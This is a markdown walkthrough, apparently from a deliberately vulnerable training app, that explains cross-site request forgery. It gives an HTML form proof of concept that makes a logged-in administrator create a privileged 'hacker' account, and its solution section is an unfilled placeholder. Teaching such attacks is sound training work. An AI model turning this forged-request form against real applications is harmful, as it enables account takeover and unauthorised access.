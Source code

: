 ## Cross Site Request Forgery (CSRF)

#### Description

A Cross-site Request Forgery (CSRF) attack is one in which the user's browser is hijacking in order to submit a request to another website they are authenticated on. They occur as a result of unprotected requests that can change the state without requiring direct user input. For example, if a form/request on a bank website to add money to their bank account is not protected by CSRF, an attacker could create an unrelated page, and submit a request to that endpoint when the user loads the attacker's page. Since the user's browser has a valid session cookie, the request would occur without the user even being aware anything had happened!

CSRF attacks are sometimes thought of as being only applicable to GET requests, but POST requests work just as well. A user simply needs to be manipulated into visiting a malicious website or clicking a malicious link to fall victim to the attack.

#### Problem
POST /api/admin/createUser

In node.nV application, there is no CSRF protection. Attackers could leverage a CSRF attack to exploit administrative functionality.

### Walkthrough
1. Create an HTML page with the code below
2. Host the page created in step one on a private server.
3. Supply the URL to the vulnerable page to an administrator with and active session open.
4. If the admin user presses the button, than the code will execute, and a user with the username:password hacker:hacker will be created.

### Code for step 1 above:

```
  <html>
  <body>
    <form action="http://localhost:8081/api/admin/createUser" method="POST">
      <input type="hidden" name="username" value="hacker" />
      <input type="hidden" name="firstname" value="super" />
      <input type="hidden" name="lastname" value="hacker" />
      <input type="hidden" name="email" value="hacker&#64;hacker&#46;com" />
      <input type="hidden" name="password" value="hacker" />
      <input type="hidden" name="role" value="3" />
      <input type="hidden" name="ispremium" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```


< Note about JSON POST requests and CSRF >


#### Solution

<Solution here >
